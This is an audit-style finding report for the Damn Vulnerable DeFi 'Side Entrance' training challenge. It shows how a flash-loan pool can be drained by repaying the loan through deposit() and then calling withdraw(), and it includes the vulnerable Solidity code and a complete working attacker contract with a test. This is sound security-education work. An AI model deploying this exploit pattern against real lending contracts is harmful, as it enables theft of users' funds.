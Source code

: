 ```yaml
---
title: Damn Vulnerable DeFi Side-Entrance Finding Report
author: Elia Bordoni
date: October 30, 2025
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---
```


\begin{titlepage}
\centering
\begin{figure}[h]
\centering
\includegraphics[width=0.5\textwidth]{logo.pdf}
\end{figure}
\vspace*{2cm}
{\Huge\bfseries Damn Vulnerable Defi Finding Report\par}
\vspace{1cm}
{\Large Version 1.0\par}
\vspace{2cm}
{\Large\itshape Elia Bordoni\par}
\vfill
{\large \today\par}
\end{titlepage}

\maketitle

Prepared by: [Elia Bordoni](https://elia-bordoni-blockchain-dev.netlify.app/)

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Exercise Summary](#exercise-summary)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Tool Used](#tool-used)
- [Findings](#findings)
  - [\[S-H\] Protocol Allows Flash Loan Ether to Be Deposited and Marked as Repaid, Enabling Subsequent Unauthorized Withdrawals](#s-h-protocol-allows-flash-loan-ether-to-be-deposited-and-marked-as-repaid-enabling-subsequent-unauthorized-withdrawals)

# Exercise Summary

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system. You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

# Audit Details

## Scope

- SideEntranceLenderPool.sol

## Tool Used

- manual review

# Findings

### [S-H] Protocol Allows Flash Loan Ether to Be Deposited and Marked as Repaid, Enabling Subsequent Unauthorized Withdrawals

**Description** The protocol allows users to take flash loans and ensures repayment by comparing the current balance of the contract with the balanceBefore value recorded at the beginning of the operation. However, the protocol also provides `SideEntranceLenderPool::deposit(uint256 _amount)` that updates the balances mapping. If, within the flash loan callback, instead of repaying the borrowed funds via a direct call, the borrower calls `SideEntranceLenderPool::deposit(uint256 _amount)` to return the Ether, the final repayment check will still pass successfully. This is because the Ether is indeed present in the contract’s balance, even though it has been credited to the attacker’s account in the balances mapping.
As a result, the flash loan transaction completes without reverting, but the attacker retains a non-zero balances entry. After the transaction, the attacker can call `SideEntranceLenderPool::withdraw()` to drain the funds, effectively stealing all the deposited Ether.

<details>
<summary>vulnerability</summary>

```javascript
    function deposit() external payable {
        unchecked {
@>          balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

@>      if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

</details>

**Impact** An attacker can borrow the contract’s entire Ether balance through a flash loan, repay it using `SideEntranceLenderPool::deposit(uint256 _amount)`, and subsequently call `SideEntranceLenderPool::withdraw()` to steal all the funds. This results in a complete and permanent loss of all Ether held by the contract.

**ProofOfConcept** Add the code into the test file `SideEntrance.t.sol` to deploy the attacker contract. Then create `AttackerContract.sol` and copy the attacker codebase into it. Run the test to confirm it passes successfully: within a single transaction the flash loan is requested and “repaid” by calling deposit, and then the attacker contract calls withdraw and forwards the received funds to the destination address.

<details>
<summary>Test Code</summary>

```solidity
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_sideEntrance() public checkSolvedByPlayer {
        AttackerContract attacker = new AttackerContract(address(pool), recovery);
        attacker.attack();
    }
```

</details>

<details>
<summary>Attacker Contract Code</summary>

```solidity
   // SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;
import "forge-std/Test.sol";

interface ISideEntranceLenderPool {
    function flashLoan(uint256 amount) external;

    function deposit() external payable;

    function withdraw() external;
}

contract AttackerContract {
    ISideEntranceLenderPool private pool;
    address private owner;
    address private recovery;

    constructor(address _poolAddress, address _recoveryAddress) {
        pool = ISideEntranceLenderPool(_poolAddress);
        owner = msg.sender;
        recovery = _recoveryAddress;
    }

    function attack() external {
        require(msg.sender == owner, "Only owner can attack");
        uint256 amount = address(pool).balance;
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        (bool success,)= recovery.call{value: msg.value}("");
        require(success, "Transfer to recovery failed");
    }
}
```

</details>
